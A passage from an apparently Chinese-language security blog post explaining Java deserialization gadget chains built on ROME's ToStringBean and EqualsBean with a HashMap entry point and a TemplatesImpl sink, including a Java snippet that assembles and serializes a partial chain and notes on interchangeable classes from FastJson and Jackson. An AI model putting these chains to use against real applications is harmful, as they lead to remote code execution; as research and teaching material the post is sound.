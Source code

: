 代码如下

```bash
ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);
        Object templatesimpl = null;

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean,"123");

        Field field = toStringBean.getClass().getDeclaredField("obj"); // 低版本（如1.0）此属性名为 _obj
        field.setAccessible(true);
        field.set(toStringBean,templatesimpl);
        serialize(hashMap);
        unserialize("ser.bin");
```

调用栈如下  
[![](assets/1701606907-a594ea272ba561932aff12b07b2bf83b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231017210100-38300912-6ced-1.png)

另外这条链很多地方都可以替换

*   由于是在 HashMap 中调用 key.hashCode() 作为入口，所以入口类 HashMap 可以换成 Hashtable
*   `ObjectBean.hashCode()`中会调用`EqualsBean.beanHashCode() = EqualsBean.hashCode()` 因此可以用 ObjectBean 替换 EqualsBean

### 中间部分

`FastJson的JSONObject类 或 Jackson的POJONode类 或 ROME的ToStringBean类`中放好目标类即可

### toString()->sink

#### TemplatesImpl#getOutputProperties

**JDK 原生可用**

这条链早在 CC 和 CB 中就用到过，故不多作介绍

三组件均可用，但结合**Rome、Jackson**使用时需要一些特殊处理，详见后文

